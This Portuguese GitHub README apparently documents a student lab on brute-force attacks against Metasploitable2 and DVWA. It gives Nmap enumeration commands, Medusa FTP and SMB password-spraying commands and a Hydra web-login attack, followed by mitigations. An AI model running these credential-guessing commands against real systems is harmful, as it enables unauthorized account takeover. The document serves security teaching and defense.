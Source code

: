 # Projeto Medusa Kali Linux — Laboratório de Ataques de Força Bruta


## Aviso Legal

Todos os testes descritos neste projeto foram realizados **somente em ambiente controlado** (Kali Linux + Metasploitable2/DVWA). Não tente executar esses comandos em sistemas sem autorização.

---

## 🎯 Objetivo do  repositório?

Simular ataques de força bruta em serviços comuns (FTP, SMB e formulários web) utilizando **Kali Linux**, **Medusa** e **Hydra**, documentando os testes e propondo medidas de mitigação.

---

## Ambiente de Teste

* **VM Atacante:** Kali Linux
* **VM Alvo:** Metasploitable2 / DVWA
* **IP da VM alvo:** `192.168.56.101`
* **Rede:** Host-Only/Internal Network
* **Estrutura de pastas do projeto:**

```
README.md
/images/
/wordlists/
/scripts/
/reports/
```

---

## Ferramentas

* Kali Linux
* Medusa (ftp, smbnt)
* Hydra (formulário web)
* Nmap


---

## Wordlists

* `wordlists/users.txt` — exemplo: admin, user, test, ftp, guest
* `wordlists/passwords.txt` — exemplo: 123456, password, admin, toor, welcome

---

## 1) Enumeração (Nmap)

```bash
sudo nmap -sS -sV -p 21,22,23,80,139,445,8080 -T4 -oN reports/nmap_quick_192.168.56.101.txt 192.168.56.101
sudo nmap -sS -sV -p- -T4 -oN reports/nmap_full_192.168.56.101.txt 192.168.56.101
```

**Observação:** identifica serviços ativos e portas abertas.

---

## 2) Ataque FTP (Medusa)

```bash
medusa -M ftp -h 192.168.56.101 -U wordlists/users.txt -P wordlists/passwords.txt -t 6 -f -O reports/medusa_ftp_192.168.56.101.txt
```

* `-f` interrompe ao encontrar credencial válida.
* Salvar evidências: `reports/medusa_ftp_192.168.56.101.txt`
* Screenshot: `images/02_medusa_ftp_found.png`

---

## 3) Password Spraying SMB (Medusa)

```bash
# Usuário único
medusa -M smbnt -h 192.168.56.101 -u administrator -P wordlists/passwords.txt -t 8 -O reports/medusa_smb_admin_192.168.56.101.txt

# Vários usuários
medusa -M smbnt -h 192.168.56.101 -U wordlists/users.txt -P wordlists/passwords.txt -t 8 -O reports/medusa_smb_users_192.168.56.101.txt
```

* Evidência: arquivos em `reports/`
* Screenshot: `images/03_medusa_smb_result.png`

---

## 4) Brute Force em Formulário Web (DVWA) — Hydra

```bash
hydra -l admin -P wordlists/passwords.txt 192.168.56.101 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=Incorrect"
```

* Ajuste `F=Incorrect` conforme mensagem de erro do DVWA.
* Evidência: reports + screenshot `images/04_hydra_dvwa.png`

---

## 5) Evidências

* Logs: `/reports/` (usar `-O` ou `tee`)
* Capturas de tela: `/images/` com prefixos numéricos para organização
* Scripts de automação: `/scripts/`

---

## 6) Mitigações Recomendadas

**FTP:**

* Bloquear login anônimo
* Políticas de senha forte e bloqueio após N tentativas

**SMB:**

* Desabilitar SMBv1
* Logging e alertas para múltiplas tentativas
* MFA e políticas de senha

**Aplicações Web:**

* Proteção contra brute force (rate limiting, captcha, lockout)
* HTTPS e headers de segurança
* Validação e sanitização de entradas

---

## 7) Checklist de entrega

* [ ] Vídeo-aulas assistidas
* [ ] Snapshots das VMs
* [ ] Enumeração (Nmap) salva
* [ ] Ataques realizados (FTP, SMB, DVWA)
* [ ] Capturas de tela em `/images`
* [ ] README.md revisado
* [ ] Repositório GitHub criado e link pronto

---

## 8) Mensagens de commit sugeridas

* `feat: add initial lab structure and README`
* `test: add medusa ftp and smb test scripts`
* `docs: add final report and mitigation recommendations`

---

## 9) Próximos passos recomendados

* Expandir wordlists e reexecutar testes controlados
* Testar ferramentas alternativas e automações
* Gerar PDF a partir do Markdown para anexar ao repositório
